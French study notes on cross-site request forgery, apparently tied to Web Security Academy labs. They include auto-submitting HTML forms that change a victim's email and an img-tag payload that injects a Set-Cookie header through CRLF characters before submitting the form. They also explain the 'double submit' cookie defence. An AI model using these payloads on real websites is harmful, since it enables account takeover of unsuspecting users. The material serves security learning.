 
Exemple de code html pour exécuter un csrf.
```HTML
<form action="https://0a86006b04152df3804ff92400ae0020.web-security-academy.net/my-account/change-email" method="POST">
<input type="hiden" name="csrf" value="H89z37kivmX66XriVlFVblYPw329Kd8Q">
<input type="hidden" name="email" value="AZERTY@gmail.com" />
<input type="submit" value="Submit request" />
</form>

<script>
        document.forms[0].submit();
</script>
```

## Le jeton CSRF est lié à un cookie hors session

Il arrive que le token CSRF soit lié à un cookie mais pas le cookie qui suit les sessions. Ceci arrive généralement lorsque l'application utilise 2 frameworks : 1 pour gérer la session et 1 pour la protection CSRF. Les deux n'étant pas intégrés ensemble.


```html
<form action="https://targetWebSite.com/my-account/change-email/" method="POST">
<input type="hidden" name="csrf" value="eNqNZCzoc7tu5xx5BjlBnn6Yvu1Lg8u6">
<input type="hidden" name="email" value="AZERTY@gmail.com" />
<input type="submit" value="Submit request" />
</form>
<img src="https://targetWebSite.com/?search=AAAA%0d%0aSet-Cookie:%20csrfKey=Ufj8MY60FjcQ1wrJJQAV9OfLRat8Xi68%3b%20SameSite=None" onerror="document.forms[0].submit()">
```


Ici le lien avec /?search permet de modifier un cookie contenant un csrfKey (lié au csrf token).
L'action intéréssante est représenté par le lien /change-email.
L'idée de ce template est d'ajouter un cookie (le csrf-key ici) à partir de la balise \<img\> et lorsque l'erreur se produit, il y a la soumission du vrai token csrf.
Cela marche seulement si le Same-site=None, seulement si le cookie est secure (voir Set-Cookie).

## Le token CSRF est simplement dupliqué dans un cookie

Dans une autre variante de la vulnérabilité précédente, certaines applications ne conservent aucun enregistrement côté serveur des jetons émis, mais dupliquent plutôt chaque jeton dans un cookie et un paramètre de requête.

Lorsque la requête suivante est validée, l'application vérifie simplement que le jeton soumis dans le paramètre de requête correspond à la valeur soumise dans le cookie. Cette méthode est parfois appelé la défense `« double submit »` contre CSRF, et est préconisée car il est simple à mettre en oeuvre et évite le besoin d'un état côté serveur :

```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```
